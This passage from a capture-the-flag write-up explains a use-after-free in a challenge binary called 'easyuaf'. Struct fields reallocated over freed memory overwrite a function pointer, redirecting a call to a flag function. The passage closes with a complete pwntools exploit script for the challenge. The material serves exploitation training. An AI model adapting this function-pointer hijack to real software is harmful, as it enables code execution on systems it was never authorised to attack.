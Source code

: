 This is exactly what happens when we now create a new `person`: (Note that sometimes it is important for the `structs` to have the same size; in this case they do so there is no problem)

![easyuaf-3.png](images/easyuaf-3.png)

We can see that the `personal_num` and `business_num` overwrote the initial function pointer, even though the `org` stored within the global array still thinks that it is a legitimate address!

Now imagine if the `buniess_num` and `personal_num` together make up the address of `ezflag`. When `print_card` attempts to call the function stored there, it jumps to `ezflag` instead!

---

Thus we already have our working exploit:

```python
from pwn import *

e = context.binary = ELF('./easyuaf')
p = e.process()
# p = remote('xxx.yyy.zzz', 123)

p.sendline(b'2')
p.sendline(b'0')
p.sendline(b'a')
p.sendline(b'1')

p.sendline(b'3')
p.sendline(b'0')

p.sendline(b'1')
p.sendline(b'0')
p.sendline(b'a')
p.sendline(b'0')
p.sendline(str(u32(p64(e.sym.ezflag)[:4])).encode())
p.sendline(str(u32(p64(e.sym.ezflag)[4:])).encode())

p.sendline(b'4')
p.sendline(b'0')
p.sendline(b'0')

p.interactive()
```
